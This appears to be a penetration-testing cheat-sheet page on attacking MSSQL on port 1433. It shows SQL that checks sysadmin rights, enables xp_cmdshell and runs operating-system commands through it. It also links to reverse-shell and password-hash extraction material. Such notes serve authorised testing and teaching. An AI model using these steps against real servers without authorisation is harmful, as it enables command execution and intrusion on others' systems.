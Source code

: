 # 1433 - MSSQL

## Connect to MSSQL from Kali

{% page-ref page="../../kits/tools/mssqlclient.py-impacket.md" %}

## MSSQL for PrivEsc

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
-----------
          1

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

xp_cmdshell "whoami"
```

{% hint style="info" %}
Compare the following syntax \(note the `;)`

* `EXEC xp_cmdshell "whoami";`
* `xp_cmdshell "whoami"`
{% endhint %}

{% page-ref page="../../collections/reverse-shell/powershell.md" %}

## MSSQL System Databases

Documentation: [https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions](https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions)

To restore backups \(.bak\) or read database files \(.mdf and .ldf\) offline: 

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
* [https://rastating.github.io/from-lfi-to-sql-database-backup/](https://rastating.github.io/from-lfi-to-sql-database-backup/)

